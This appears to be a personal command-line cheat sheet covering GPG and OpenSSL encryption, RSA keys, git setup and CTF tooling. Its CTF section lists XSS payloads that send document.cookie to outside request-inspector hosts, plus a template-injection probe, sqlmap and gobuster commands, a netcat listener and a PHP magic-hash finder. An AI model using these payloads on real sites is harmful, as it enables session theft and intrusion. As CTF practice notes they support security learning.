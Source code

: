 # command-lines

## Encription

### GPG

`gpg --armor --symmetric --cipher-algo CIPHER message.txt`

`gpg --output original_message.txt --decrypt message.gpg`

### OpenSSL

`openssl aes-256-cbc -e -in message.txt -out encrypted_message`

`openssl aes-256-cbc -d -in encrypted_message -out original_message.txt`

`openssl aes-256-cbc -pbkdf2 -iter 10000 -e -in message.txt -out encrypted_message`

`openssl aes-256-cbc -pbkdf2 -iter 10000 -d -in encrypted_message -out original_message.txt`

### RSA 

`openssl genrsa -out private-key.pem 2048`

`openssl rsa -in private-key.pem -pubout -out public-key.pem`

`openssl rsa -in private-key.pem -text -noout`

`openssl pkeyutl -encrypt -in plaintext.txt -out ciphertext -inkey public-key.pem -pubin`

`openssl pkeyutl -decrypt -in ciphertext -inkey private-key.pem -out decrypted.txt`

### Deffie Hellman

`openssl dhparam -out dhparams.pem 2048`

`openssl dhparam -in dhparams.pem -text -noout`

### Certificate signing

`openssl req -new -nodes -newkey rsa:4096 -keyout key.pem -out cert.csr`

## Gobuster

gobuster dir -w /usr/share/wordlists/rockyou.txt -u "http://localhost:8000/"

## nmap

nc -nlvp 1234

## Git

`git remote set-url origin git@github.com:sbahbouhi/command-lines.git`

`git init`

`git commit -m "xxxx"`

`git branch -M main`

`git remote add origin git@github.com:sbahbouhi/xxxx.git`

`git push -u origin main`

## CTF

### xss payloads

<script>window.location=`https://01hh4df1c5qk1fjks5n8spq9zn00-e4e6c9cb80653f2a86a1.requestinspector.com/${document.cookie}`</script>

<img%20src=x%20onerror=window.location=`https://01hhfejwqqkzvvfbv222c4phhm00-51a6d20d3e3a4700ffaa.requestinspector.com` />

`fetch("https://01hh4df1c5qk1fjks5n8spq9zn00-e4e6c9cb80653f2a86a1.requestinspector.com?"+encodeURIComponent(document.cookie));`

`VueJS {{7*7}}`

### sqlmap

`sqlmap -u "http://localhost:8000/index.php?id=1" -dbs`


	
<?php
  for( $i = 0;; $i++) {
    $test = "0e".$i;
    if( md5($test) == $test) {
      echo $test;
    }
  }
?>

